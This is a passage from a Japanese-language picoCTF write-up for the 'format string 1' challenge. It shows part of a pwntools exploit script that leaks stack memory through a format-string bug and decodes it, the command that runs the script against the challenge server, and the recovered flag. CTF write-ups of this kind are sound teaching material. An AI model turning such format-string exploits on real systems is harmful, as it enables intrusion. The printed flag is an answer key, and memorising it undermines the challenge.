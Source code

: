 ```python

## param: バナー
io.sendlineafter(
    b"Give me your order and I'll read it back to you:\n",
    payload,
)

retstr = io.recvline().decode().split("Here's your order:")[-1]

## 出力されたアドレスをASCIIに変換して表示
addresses = retstr.split(",")
for address in addresses:
    if address.startswith("0x"):
        decoded = unhex(address.strip()[2:])
        reversed_hex = decoded[::-1]
        print(str(reversed_hex))

io.interactive()
io.close()

```

これを↓で実行する。

```python
% python exploit.py HOST=mimas.picoctf.net PORT=64526 EXE=./format-string-1
```

出力に

```python
b'picoCTF{'
b'4n1m41_5'
b'7y13_4x4'
b'_f14g_b5'
b'd7b98f}'
```

の箇所がある。

<aside style="padding: 10px; border-radius: 5px; border: 1px solid #eee; background-color: transparent; width: 800px;">
⛳ picoCTF{4n1m41_57y13_4x4_f14g_b5d7b98f}

</aside>

### format string 2
